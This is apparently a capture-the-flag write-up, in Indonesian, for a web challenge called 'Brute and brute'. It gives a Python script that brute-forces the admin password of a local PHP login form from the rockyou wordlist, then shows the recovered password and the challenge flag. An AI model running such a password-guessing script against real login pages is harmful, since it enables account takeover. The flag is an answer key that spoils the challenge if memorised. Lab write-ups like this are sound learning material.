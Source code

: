 <h1><b>Brute and brute</h1></b>
<pre>
Login form (Username & Password)
</pre>
</b><h3>Solution</h3></b>
<p>Kita diminta login dengan bruteforce username dan password</p>

```python
import requests

url = "http://localhost/CTF/Web_warning/Web-Warning-1.php"
wordlist = open('/home/venom/CreateWordlist/rockyou.txt')
for i in wordlist:
    i = i.strip('\n')
    data = {"username":"admin",
            "password":i,
            "Submit":"Submit"}
    res = requests.post(url,data=data).text
    if "incorrect" not in res:
        print("username : admin\npassword :",i)
```
<p>Output program</p>
<pre>
username : admin
password : baby123
</pre>
<p align='justify'>Sekarang coba login dengan username dan password yang didapatkan, maka muncul pesan dan flag<b> Your success, VenomCTF{Brut3f0rce_1s_c3rtain}</b></p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{Brut3f0rce_1s_c3rtain}
</pre>

